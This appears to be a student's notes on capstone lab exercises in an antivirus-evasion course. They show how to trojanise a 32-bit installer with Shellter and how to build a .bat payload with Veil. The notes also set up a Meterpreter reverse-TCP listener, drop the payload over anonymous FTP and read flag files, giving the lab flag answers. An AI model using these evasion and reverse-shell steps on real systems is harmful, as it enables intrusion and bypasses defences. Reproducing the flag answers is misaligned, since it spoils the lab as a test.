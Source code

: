 
2. **Capstone Exercise**: In this exercise, you'll be facing off against _COMODO_ antivirus engine running on Module Exercise VM #1. Use another popular 32-bit application, like _PuTTY_, to replicate the steps learned so far in order to inject malicious code in the binary with Shellter. The victim machine runs an anonymous FTP server with open read/write permissions. Every few seconds, the victim user will double-click on any existing **.exe** file(s) in the FTP root directory. If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and hopefully, grant you a reverse shell. NOTE: set the FTP session as _active_ and enable _binary_ encoding while transferring the file.

- Download 32-bit exe (used Same SpotifySetup.exe as module exercise)
- Use [shellter](Tools.md#shellter)
```bash
Choose Operation Mode - Auto/Manual (A/M/H): a

PE Target: /home/kali/exercises/av_evasion/SpotifySetup.exe

...
Enable Stealth Mode? (Y/N/H): y

	************
	* Payloads *
	************
	[1] Meterpreter_Reverse_TCP   [stager]
	[2] Meterpreter_Reverse_HTTP  [stager]
	[3] Meterpreter_Reverse_HTTPS [stager]
	[4] Meterpreter_Bind_TCP      [stager]
	[5] Shell_Reverse_TCP         [stager]
	[6] Shell_Bind_TCP            [stager]
	[7] WinExec

Use a listed payload or custom? (L/C/H): l                                                                                

Select payload by index: 1

***************************
* meterpreter_reverse_tcp *
***************************

SET LHOST: 192.168.45.193                                                                                                 

SET LPORT: 4444
```

- Start a Meterpreter listener
```bash
msfconsole -x "use exploit/multi/handler; set LHOST 192.168.45.193; set LPORT 4444; set PAYLOAD windows/meterpreter/reverse_tcp"
```
	- Mine stalled forever, so I just did it manually

- Upload via FTP
```bash
ftp 192.168.216.53   
	Connected to 192.168.216.53.
	220 Microsoft FTP Service
	Name (192.168.216.53:kali): anonymous
	331 Anonymous access allowed, send identity (e-mail name) as password.
	Password: 
	230 User logged in.
	Remote system type is Windows_NT.
ftp> passive
	Passive mode: off; fallback to active mode: off.
ftp> binary
	200 Type set to I.
ftp> put SpotifySetup.exe
	local: SpotifySetup.exe remote: SpotifySetup.exe
	200 EPRT command successful.
	125 Data connection already open; Transfer starting.
	100% |*****************************************************************************|   972 KiB    1.00 MiB/s    00:00 ETA
	226 Transfer complete.
	995840 bytes sent in 00:01 (946.07 KiB/s)
```

- Back in Meterpreter listener
```bash
[*] Started reverse TCP handler on 192.168.45.193:4444 
[*] Sending stage (176198 bytes) to 192.168.216.53
[*] Meterpreter session 1 opened (192.168.45.193:4444 -> 192.168.216.53:52928) at 2024-03-29 18:08:01 -0400

meterpreter > shell
Process 7960 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> type C:\Users\Administrator\Desktop\flag.txt
```

> Answer:  OS{289321c78ef5ecea13ca8f172dc9b5f8}



3. **Capstone Exercise**: Similar to the previous exercise, you'll be facing off against _COMODO_ antivirus engine v12.2.2.8012 on Module Exercise VM #2. Although the PowerShell AV bypass we covered in this Module is substantial, it has an inherent limitation. The malicious script cannot be _double-clicked_ by the user for an immediate execution. Instead, it would open in _notepad.exe_ or another default text editor. The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process. Research how to install and use the [_Veil_](https://github.com/Veil-Framework/Veil) framework to help you with this exercise.

The victim machine runs an anonymous FTP server with open read/write permissions. Every few seconds, the victim user will double-click on any existing Windows batch script file(s) (**.bat**) in the FTP root directory. If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and hopefully, grant you a reverse shell.

- Use [**Veil**](Tools.md#Veil) to craft **.bat** payload
![[veil.png]]

list:
![[veil1.png]]
![[veil2.png]]
![[veil3.png]]

Payload is saved to:
```bash
/var/lib/veil/output/source/payload.bat
```

- Same as previous exercise:
	- Setup a meterpreter listener w/ msfconsole
	- Connect to victim via FTP and put payload.bat
	- `shell`
	- `type C:\Users\Administator\Desktop\flag.txt`

> Answer:  OS{f96ff1e815e595f44187f4c81f929858}